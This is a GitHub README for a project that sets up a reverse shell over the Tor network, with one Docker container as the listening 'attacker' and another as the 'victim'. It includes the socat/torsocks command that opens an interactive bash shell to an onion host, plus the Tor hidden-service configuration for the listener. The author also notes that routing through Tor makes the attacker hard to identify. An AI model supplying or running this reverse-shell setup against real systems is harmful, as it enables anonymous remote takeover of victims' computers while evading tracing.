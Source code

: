 <div align="center">
<img src="https://img.shields.io/badge/docker-%230db7ed.svg?style=for-the-badge&logo=docker&logoColor=white" alt="docker" />

<img src="https://img.shields.io/badge/tor-%237E4798.svg?style=for-the-badge&logo=tor-project&logoColor=white" alt="tor-web-server"/>

<img src="https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white" alt="ubuntu-linux"/>

<img src="" alt=""/>

</div>
<br/>
<br/>

## **💻 Project**

We created **_two containers_** in isolation that communicate with the **_Tor network_** forming a **_reverse shell_**. In this way, an attacker listens for connections from the Tor network while the victim's computer connects to the attacker.

<p align="center">
<img src="./assets/architecture.png" alt="architecture" width="700px"/>
</p>

To create the docker images we used [Ubuntu](https://ubuntu.com/) and installed [socat](https://linux.die.net/man/1/socat) and [tor](https://community.torproject.org/relay/setup/bridge/debian-ubuntu/) via apt-get as you can see in the dockerfiles. This project is the continuation of [this one](https://github.com/tpaphysics/reverse-shell).

## **🚀 Get Started**

First open a terminal instance and run the **_start_listen.sh_** script:

<p align="center">
<img src="./assets/listen-example.gif" alt="example-1"/>
</p>

Wait for Tor startup to reach 100%. Copy the script in yellow like the one generated in the image above.

Now open another instance of the terminal and run the **_start_rshell.sh_** script. After initialization, paste the script that was copied in the terminal and hit the enter key:

<p align="center">
<img src="./assets/rshell-example.gif" alt="example-2"/>
</p>

You can see that the attacker gets access to the victim computer.

## **🌐 Client explanation**

In order for the client to be able to make calls to the attacker, the rshell container needs to be on the tor network and execute the following command:

```bash
# example attacker host
ATTACKER_HOST=lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
ATTACKER_PORT=80

torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$ATTACKER_HOST:$ATTACKER_PORT
```

The **_torsocks_** command guarantees the the victim's ability to making calls to hosts on the Tor network.

## **🌐 Server explanation**

To create the server on the Tor network we must include the file **_torrc_** in the directory **_/etc/tor/_** this way we will get a host on the Tor network.

```bash
# torrc example
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:80
```

After starting the **_listen_** container you can see the host created by running the command:

```bash
docker exec -it listen cat /var/lib/tor/hidden_service/hostname

# out example
lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
```

Then every call the victim makes to host `lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion` will be redirected to the **_socat_** server which is listening locally on port 80.

## **💥 Considerations**

There are many ways to create a reverse shell as you can see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). We use socat because it's easy to create a reverse shell with interactive PTY and autocomplete. I'm not a racker and I'm far from it 😂. But some lamers out there make gigantic python scripts with interactive interfaces and lots of base 64 to do it. For a good lamer like me 😎, a sh terminal with busybox is enough. Using the Tor network to create a reverse shell makes it very difficult to identify the attacker. I could have used the **_alpine_** image instead of **_ubuntu_** to create the containers but there was a problem in socat and I was too lazy to do that 😅.

## **👨‍🚀 Author**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 My contacts!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## **📝 License**

This project has an MIT [license](LICENSE.md).
